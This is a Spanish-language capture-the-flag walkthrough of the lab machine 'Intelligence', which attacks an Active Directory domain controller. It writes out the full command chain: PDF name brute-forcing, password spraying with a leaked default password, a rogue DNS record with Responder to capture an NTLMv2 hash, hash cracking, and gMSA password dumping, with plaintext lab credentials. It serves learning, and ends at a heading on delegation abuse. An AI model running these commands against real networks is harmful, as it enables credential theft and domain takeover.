# Intelligence

`Intelligence` es una máquina Windows de dificultad media que muestra una serie de ataques comunes en un entorno de Active Directory. Después de recuperar documentos PDF internos almacenados en el servidor web (mediante la fuerza bruta de un esquema de nombres común) e inspeccionar sus contenidos y metadatos, que revelan una contraseña predeterminada y una lista de posibles usuarios de AD, la pulverización de contraseñas conduce al descubrimiento de una cuenta de usuario válida, lo que otorga un punto de apoyo inicial en el sistema.

Se descubre un script de `PowerShell` programado que envía solicitudes autenticadas a servidores web en función de su nombre de host; al agregar un registro DNS personalizado, es posible forzar una solicitud que se puede interceptar para capturar el hash de un segundo usuario, que es fácil de descifrar. A este usuario se le permite leer la contraseña de una cuenta de servicio administrada por un grupo, que a su vez tiene acceso de delegación restringido al controlador de dominio, lo que da como resultado un shell con privilegios administrativos.

<figure><figcaption></figcaption></figure>

## Reconnaissance

Realizaremos un reconocimiento con **nmap** para ver los puertos que están expuestos en la máquina Intelligence.

```bash
nmap -p- --open -sS --min-rate 1000 -vvv -Pn -n 10.10.10.248 -oG allPorts
```

<figure><figcaption></figcaption></figure>

Lanzaremos una serie de scripts básicos para intentar buscar vulnerabilidades en los puertos que hemos encotrado expuestos.


```bash
nmap -sCV -p53,80,88,135,139,389,445,464,593,636,3268,3269,9389,49666,49691,49692,49711,49726,49745 10.10.10.248 -oN targeted
```


<figure><figcaption></figcaption></figure>

Comprobaremos el nombre del dominio con el cual nos enfrentamos a través del siguiente comando.

```bash
ldapsearch -x -H ldap://10.10.10.248 -s base | grep defaultNamingContext
```

<figure><figcaption></figcaption></figure>

Procederemos a añadir la entrada en nuestro archivo **/etc/hosts**

```bash
catnp /etc/hosts | grep intelligence.htb
```

<figure><figcaption></figcaption></figure>

## Information Leakage

Como hemos visto el puerto 80 expuesto (HTTP), procederemos a acceder a [http://intelligence.htb](http://intelligence.htb) y comprobaremos que disponemos de 2 PDFs para descargar. Los descargaremos en nuestro equipo.&#x20;

<figure><figcaption></figcaption></figure>

Moveremos los 2 PDFs descargados a nuestro directorio actual de trabajo y procederemos a comprobar que disponemos de los archivos.

```bash
mv /home/kali/Descargas/2020-12-15-upload.pdf .

mv /home/kali/Descargas/2020-01-01-upload.pdf .

ls -l
```

<figure><figcaption></figcaption></figure>

A través de la herramienta de **exiftool** analizaremos los 2 PDFs que disponemos en busca de metadatos. Comprobamos que en los 2 archivos aparece un creador diferente, lo cual parece ser nombres de usuario.

```bash
exiftool 2020-01-01-upload.pdf

exiftool 2020-12-15-upload.pdf
```

<figure><figcaption></figcaption></figure>

Hemos visto que los documentos PDF que disponíamos, seguían el mismo formato de nombre de archivo (YYYY-MM-DD-upload.pd).&#x20;

Por lo tanto, pensamos que podrían haber más PDFs en el sitio web que no aparecían visiblemente accesibles. Para comprobarlo, diseñamos un pequeño script en bash que itera a través de los años, meses y días realizando una descarga para cada combinación. Así, logramos descargar todos los PDFs disponibles que habían des del 2015 hasta el 2024.

```bash
catnp pdfExtract.sh
```

```bash
#!/bin/bash
for year in {2015..2024}; do
  for month in {01..12}; do
    for day in {01..31}; do
      echo "http://10.10.10.248/documents/$year-$month-$day-upload.pdf"
    done
  done
done | xargs -n 1 -P 20 wget -q --show-progress 2>/dev/null
```

```bash
./pdfExtract.sh
```

<figure><figcaption></figcaption></figure>

Verificamos que se realizó la descarga de varios PDFs que no estaban visiblemente accesibles.

```bash
ls
```

<figure><figcaption></figcaption></figure>

Procedimos a realizar con **exiftool** la extracción de los creadores de dichos PDFs para almecenar el resultado en "users.txt" de posibles usuarios que habíamos encontrado.


```bash
exiftool *.pdf -creator | awk 'NF{print $NF}' | grep -vE "\.pdf|read" | sort -u > ../users.txt

catnp users.txt
```


<figure><figcaption></figcaption></figure>

## Users Enumeration

### Kerberos User Enumeration - Kerbrute

Como hemos  verificado que Kerberos (Puerto 88) se encuentra expuesto, procedemos a realizar una enumeración de usuarios válidos de la lista que disponemos a través de la herramienta de **kerbrute**. Comprobamos que todos los usuarios que disponíamos de la extracción de los metadatos de los PDFs son válidos.

```bash
kerbrute userenum --dc 10.10.10.248 -d intelligence.htb users.txt
```

<figure><figcaption></figcaption></figure>

### AS-REP Roasting Attack (GetNPUsers) - \[FAILED]

Debido que disponemos de una buena cantidad de usuarios válidos, probaremos de realizar un **AS-REP Roasting Attack** de usuarios que dispongan del (DONT\_REQ\_PREAUTH) de Kerberos.

En este caso, ninguno disponía de dicha configuración.

```bash
impacket-GetNPUsers -no-pass -usersfile users.txt intelligence.htb/ 2>/dev/null
```

<figure><figcaption></figcaption></figure>

## Content analysis of PDFs extracted from the website

Procederemos a analizar todos los PDFs que habíamos extraído anteriormente en busca de contenido.

Para ello a través de un bucle while, procederemos a ir uno por uno para que se ejecute la herramienta de **pdftotext** y así disponer para cada uno el PDF pasado a texto.


```bash
for file in $(ls);do echo $file; done | grep -v users | while read filename; do pdftotext $filename; done

ls
```


<figure><figcaption></figcaption></figure>

Comprobando todos los contenidos de los PDFs, comprobamos que aparece uno un mensaje indicando a los usuarios  cual es la contraseña por defecto que disponen cuando se crean la cuenta.

```bash
catnp *.txt
```

<figure><figcaption></figcaption></figure>

## Checking credentials found with Crackmapexec

Teniendo la nueva contraseña, probaremos con **crackmapexec** de buscar con qué usuario podemos autenticarnos con dichas credenciales.

Nos encontramos que la usuaria "Tiffany.Molina" no realizó el cambio de contraseña y continua con la contraseña que veía por defecto.


```bash
crackmapexec smb 10.10.10.248 -u users.txt -p 'NewIntelligenceCorpUser9876' --continue-on-success
```


<figure><figcaption></figcaption></figure>

Validaremos de nuevo solamente con el usuario y su respectiva contraseña y comprobamos que nos autentica correctamente.

```bash
netexec smb 10.10.10.248 -u 'Tiffany.Molina' -p 'NewIntelligenceCorpUser9876'
```

<figure><figcaption></figcaption></figure>

## Kerberoast Attack (GetUserSPNs) - \[FAILED]

Teniendo un usuario válido con sus credenciales, procederemos a intentar realizar un **Kerberoast Attack**, comprobamos que no obtenemos ningún TGS (Ticket Granting Service).


```bash
impacket-GetUserSPNs -dc-ip 10.10.10.248 intelligence.htb/Tiffany.Molina:NewIntelligenceCorpUser9876 -request
```


<figure><figcaption></figcaption></figure>

## LDAP Enumeration

### Enumerating LDAP with Ldapdomaindump

Procederemos a enumerar el LDAP ya que lo hemos encontrado expuesto. Procederemos con la herramienta de **ldapdomaindump** de exportar todo el contenido de LDAP en nuestra Kali.


```bash
ldapdomaindump -u 'intelligence.htb\Tiffany.Molina' -p 'NewIntelligenceCorpUser9876' 10.10.10.248 -o ldap
```


Revisando los archivos que nos deja la herramienta, comprobamos que hay un equipo nombrado "svc@intelligent.htb" que como flag aparece "TRUSTED\_TO\_AUTH\_FOR\_DELEGATION", esto es muy interesante y nos podría servir de cara el futuro.

<figure><figcaption></figcaption></figure>

## SMB Enumeration

Procederemos a enumerar el SMB con las nuevas credenciales obtenidas y ver a qué recursos tiene acceso dicho usuario. Comprobamos que dispone de acceso al recurso "Users".


```bash
netexec smb 10.10.10.248 -u 'Tiffany.Molina' -p 'NewIntelligenceCorpUser9876' --shares
```


<figure><figcaption></figcaption></figure>

Con la herramienta de **smbmap** procederemos a comprobar el directorio de (Users/Tiffany.Molin/Desktop) y vemos que encontramos la flag de **user.txt**, la descargaremos con **smbmap** mismo.

<pre class="language-bash" data-overflow="wrap"><code class="lang-bash">smbmap -H 10.10.10.248 --no-banner -u 'Tiffany.Molina' -p 'NewIntelligenceCorpUser9876' -r Users/Tiffany.Molina/Desktop
<strong>
</strong><strong>smbmap -H 10.10.10.248 --no-banner -u 'Tiffany.Molina' -p 'NewIntelligenceCorpUser9876' --download Users/Tiffany.Molina/Desktop/user.txt
</strong><strong>
</strong><strong>mv 10.10.10.248-Users_Tiffany.Molina_Desktop_user.txt user.txt
</strong>
catnp user.txt
</code></pre>

<figure><figcaption></figcaption></figure>

Con **smbclient** procederemos a conectarnos al recurso compartido "IT" y nos descargaremos todo el contenido del recurso.

```bash
smbclient //10.10.10.248/IT -U 'Tiffany.Molina%NewIntelligenceCorpUser9876
```

<figure><figcaption></figcaption></figure>

Hemos encontrado un script en un recurso SMB que realiza comprobaciones del estado de servidores web registrados en Active Directory. El script itera sobre los registros DNS que comienzan con "web" y, si no recibe un estado 200 de respuesta, envía un correo electrónico a "Ted Graves".

```bash
cat downdetector.ps1
```

<figure><figcaption></figcaption></figure>

## Creating a DNS Record (dnstool.py) \[Abusing ADIDNS]

Para aprovechar una vulnerabilidad en el entorno de Active Directory, utilicé la herramienta **dnstool.py** para crear un registro DNS que redirige las solicitudes a mi dirección IP. Esto permite que, al verificar el estado del servidor web, se utilicen las credenciales del usuario que está definido en "UseDefaultCredentials".

Una vez añadido el registor DNS, procederemos con el siguiente punto.


```bash
python3 /opt/krbrelayx/dnstool.py -u 'intelligence.htb\Tiffany.Molina' -p 'NewIntelligenceCorpUser9876' -r webgzzcoo -a add -t A -d 10.10.14.13 10.10.10.248
```


<figure><figcaption></figcaption></figure>

Debido que el script se ejecuta cada 5 minutos y hemos realizado un registro DNS que empieza por "web", el script lo que hará es verificar el estado del servidor web que apunta a mi dirección IP, por lo tanto con **responder** capturaremos el HASH NTLMv2 del usuario que ejecute dicho script.

Comprobamos que obtenemos el hash NTLMv2 del usuario "Ted.Graves".

```bash
responder -I tun0
```

<figure><figcaption></figcaption></figure>

## Cracking hashes with Hashcat

Con la herramienta de **hashcat** procederemos a crackear el hash para obtener la contraseña a través de un diccionaro. Comprobamos que ha encontrado la contraseña válida para el hash.

```
hashcat hash.txt /usr/share/wordlists/rockyou.txt
```

<figure><figcaption></figcaption></figure>

## Checking newly credentials found with Netexec

Con la herramienta de **netexec** procederemos a validar de que las credenciales para el usuario "Ted.Graves" son válidas y así también revisar los recursos compartidos SMB que tiene acceso, pero vemos que dispone de los mismos permisos que el anterior usuario, por lo tanto, descartamos volver a enumerar el SMB con estas credenciales.

```bash
netexec smb 10.10.10.248 -u 'Ted.Graves'  -p 'Mr.Teddy'

netexec smb 10.10.10.248 -u 'Ted.Graves'  -p 'Mr.Teddy' --shares
```

<figure><figcaption></figcaption></figure>

Verificadas las nuevas credenciales, las guardaremos en nuestro archivo "credentials.txt".

```bash
catnp credentials.txt
```

<figure><figcaption></figcaption></figure>

## BloodHound Enumeration

Como no tenemos acceso a la máquina por terminal aún, procederemos a realizar la enumeración del AD con BloodHound para recopilar toda la información y así a través de BloodHound encontrar algún vector para escalar privilegios.


```bash
bloodhound-python -c all -u Ted.Graves -p 'Mr.Teddy' -d intelligence.htb -ns 10.10.10.248
```


<figure><figcaption></figcaption></figure>

Marcaremos que tenemos el usuario "Ted.Graves" como "Ownes" ya que ya lo hemos comprometido.

<figure><figcaption></figcaption></figure>


Seleccionaremos al usuario y en el apartadod e "Node Info" le daremos a "Reachable High Value Targets" para ver posibles objetivos.

<figure><figcaption></figcaption></figure>

Comprobamos el siguiente esquema del usuario "Ted.Graves".

<figure><figcaption></figcaption></figure>

## Privilege Escalation

### Abusing ReadGMSAPassword Rights (gMSADumper)

Comprobamos en BloodHound de que el usuario forma parte del grupo "ITSUPPORT", que a su vez dicho grupo tiene permisos de (ReadGMSAPassword).

<figure><figcaption></figcaption></figure>

Con este permiso sobre el equipo "SVC\_INT", lo que nos permite es obtener la contraseña de la cuenta de servicio de dicho equipo.

<figure><figcaption></figcaption></figure>

BloodHound nos explica la manera de explotar este privilegio des de Linux a través de **gMSADumper.py**.

<figure><figcaption></figcaption></figure>

Procederemos a extraer la contraseña de la cuenta de servicio sobre el equipo mencionado. Para ello, utilizarmeos  **gMSADump.py**.

Comprobamos que hemos obtenido el hash NTLM de la cuenta "svc\_int"


```bash
python3 /opt/gMSADumper/gMSADumper.py -u 'Ted.Graves' -p 'Mr.Teddy' -l 10.10.10.248 -d 'intelligence.htb'
```


<figure><figcaption></figcaption></figure>

### Abusing Unconstrained Delegation

